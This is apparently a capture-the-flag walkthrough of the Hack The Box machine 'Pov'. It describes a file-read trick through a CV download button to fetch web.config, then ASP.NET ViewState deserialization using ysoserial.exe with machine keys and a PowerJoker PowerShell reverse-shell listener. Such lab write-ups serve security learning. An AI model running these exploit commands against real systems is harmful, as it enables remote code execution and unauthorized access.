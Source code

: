 command: ```echo "10.10.11.251 dev.pov.htb" | sudo tee -a /etc/hosts```



![[7.png]]
scrolling through the page nothing seems interesting but the download CV button draws my attention so lets check that out 


![[8.png]]
so we can try to intercept the request using one of our favorite tool called burpsuite.

so we intercept our request when we click on the Download button and then send the request to repeater and change the file from cv.pdf to /web.config.


![[9.png]]
By changing the requested file from "cv.pdf" to "/web.config", we aim to retrieve the web configuration file, which can contain sensitive information such as database credentials, API keys, or other configuration settings that could aid further exploitation or unauthorized access


![[10.png]]
so now let's find a way to exploit this vulnerability. from further researches i was able to find a possible method we can use to exploit this. it can be found [[https://book.hacktricks.xyz/pentesting-web/deserialization/exploiting-__viewstate-parameter]]

first of all we need to generate a powershell payload and set up listener.

to do this we would be making use of **PowerJoker**  => [[https://github.com/Adkali/PowerJoker]]

commands used: ```git clone https://github.com/Adkali/PowerJoker.git


```
cd PowerJoker 
pip3 install -r requirements.txt
python3 PowerJoker.py -l [ LOCAL MACHINE ] -p [ PORT ]
```


![[11.png]]
so after generating the payload powerjoker automatically sets up a listener for us, so we leave the listener active because we are going to need it later. we can use our powershell in our windows machine  and then download the ysoserial.exe file from here [[(https://github.com/pwntester/ysoserial.net/releases/tag/v1.36)]]

Navigate towards the file and paste the payload using the following command and press enter.

```
.\ysoserial.exe -p ViewState -g TextFormattingRunProperties --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" --path="/portfolio/default.aspx" -c "Paste_the_payload_here"
```
![[Screenshot (31).png]]
now we intercept the request once again and change the content of the **VIEWSTATE=** parameter to the generated output of our previously ran script and send the request.

